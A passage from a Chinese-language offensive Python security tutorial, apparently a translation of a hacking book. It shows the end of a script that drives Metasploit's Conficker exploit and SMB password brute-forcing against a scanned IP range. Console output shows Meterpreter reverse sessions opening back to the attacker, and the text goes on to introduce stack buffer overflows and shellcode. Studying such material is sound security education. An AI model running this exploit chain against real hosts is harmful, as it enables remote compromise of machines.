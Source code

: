 ```py
    lport = options.lport
    if lport == None:
        lport = '1337'
    passwdFile = options.passwdFile
    tgtHosts = findTgts(options.tgtHost)
    setupHandler(configFile, lhost, lport)
    for tgtHost in tgtHosts:
        confickerExploit(configFile, tgtHost, lhost, lport)
        if passwdFile != None:
            smbBrute(configFile, tgtHost, passwdFile, lhost, lport)
    configFile.close()
    os.system('msfconsole -r meta.rc')
if __name__ == '__main__':
    main() 
```

到目前为止我们利用的都是已知的方法攻击的。然而，没有已知的攻击方法的目标主机怎么办？你怎样建立你自己的 0day 攻击？在接下来的章节中，我们我们将建立我们自己的 0day 攻击。

```py
attacker# python conficker.py -H 192.168.1.30-50 -l 192.168.1.3 -F
    passwords.txt
[+] Found Target Host: 192.168.1.35
[+] Found Target Host: 192.168.1.37
[+] Found Target Host: 192.168.1.42
[+] Found Target Host: 192.168.1.45
[+] Found Target Host: 192.168.1.47
<..SNIPPED..>
[*] Selected Target: Windows XP SP2 English (AlwaysOn NX)
[*] Attempting to trigger the vulnerability...
[*] Sending stage (752128 bytes) to 192.168.1.37
[*] Meterpreter session 1 opened (192.168.1.3:1337 -> 192.168.1.37:1087) at Sat Jun 23 16:25:05 -0700 2012
<..SNIPPED..>
[*] Selected Target: Windows XP SP2 English (AlwaysOn NX)
[*] Attempting to trigger the vulnerability...
[*] Sending stage (752128 bytes) to 192.168.1.42
[*] Meterpreter session 1 opened (192.168.1.3:1337 -> 192.168.1.42:1094) at Sat Jun 23 15:25:09 -0700 2012 
```

## 编写你自己的 0day POC 代码

上一节的 Conficker 蠕虫利用的是堆栈溢出漏洞。Metasploit 框架包含了几百种独一无二的 exploit，你可能碰到要你自己写的远程代码执行的 exploit 的代码。这一节我们将讲解怎样用 Python 简化这一过程。为了做到这些，我们要开始讲解缓冲区溢出的知识。

Morris 蠕虫成功的部分原因是 Finger 服务的堆栈缓冲区溢出的漏洞利用。这类攻击的成功是因为程序验证用户输入的失败所导致。尽管 Morris 蠕虫在 1988 年利用了堆栈缓冲区溢出漏洞，直到 1996 年 Elias Levy 才发表了一篇学术论文为“Smashing the Stack for Fun and Profit”在 Phrack 杂志上。如果你对堆栈缓冲区溢出攻击的原理不熟悉的话，想了解更多，可以仔细阅读这篇文章。就我们的目的而言，我们会花时间讲解堆栈缓冲区溢出攻击的关键技术。

## 基于堆栈的缓冲区溢出攻击

对于堆栈缓冲区溢出来说，未经检查的用户数据覆盖了下一个指令 EIP 从而控制程序的流程。Exploit 直接将 EIP 寄存器指向攻击者插入 ShellCode 的位置。一系列的机器代码 ShellCode 能允许 exploit 在目标系统里增加用户，连接攻击者或者下载一个独立的可执行文件。ShellCode 有无尽的可能性存在，完全取决于内存空间的大小。
